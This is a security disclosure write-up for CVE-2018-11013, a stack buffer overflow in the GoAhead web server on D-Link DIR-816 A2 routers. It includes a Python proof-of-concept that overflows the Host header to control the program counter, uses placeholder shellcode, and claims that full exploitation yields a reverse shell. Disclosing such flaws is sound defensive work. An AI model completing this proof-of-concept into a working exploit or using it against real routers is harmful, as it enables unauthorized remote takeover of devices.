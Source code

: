 ```yaml
---
title: D-Link DIR-816 A2 (CN) router stack-based buffer overflow
categories:
  - exploit
tags: router-exploitation
published: true
---
```


**This is the detail about CVE-2018-11013.**

# Vulnerability Description

Stack-based buffer overflow in the websRedirect function in GoAhead on D-Link DIR-816 A2 (CN) routers with
firmware version 1.10B05 allows unauthenticated remote attackers to execute arbitrary code via a request with
a long HTTP Host header.

# Vulnerability Detail

The vulnerability exists in the websRedirect function in the GoAhead web server. 

After access the router's WiFi or router's web service is opening on the Internet, send a GET request with
long HTTP Host header to sharefile function then triggers websRedirect function, and a piece of code do copy
Host header string to stack with no length limit locate on 0x41EAE4, so we could control the $pc register.

![]({{site.baseurl}}/images/05-13-18-1.png)

# Poc

A simple proving.

For the vendor's security, we will not provide the full exploitation before this issue report was confirmed.

**[poc.py]:**

```python

# Tested product: DIR-816 (CN)
# Hardware version: A2
# Firmware version: v1.10B05 (2018/01/04)
# Firmware name: DIR-816A2_FWv1.10CNB05_R1B011D88210.img
#

import socket

p = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                 
p.connect(("192.168.0.1" , 80))

shellcode = "A"*0x200   # *** Not the correct shellcode for exploit ***

rn = "\r\n"
strptr = "\x60\x70\xff\x7f"
padding = "\x00\x00\x00\x00"

payload = "GET /sharefile?test=A" + "HTTP/1.1" + rn
payload += "Host: " + "A"*0x70 + strptr*2 + "A"*0x24  + "\xb8\xfe\x48" + rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x200 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += rn

p.send(payload)
print p.recv(4096)
```

With the full exploitation, we could get a reverse shell:

![]({{site.baseurl}}/images/05-13-18-2.png)

![]({{site.baseurl}}/images/05-13-18-3.png)
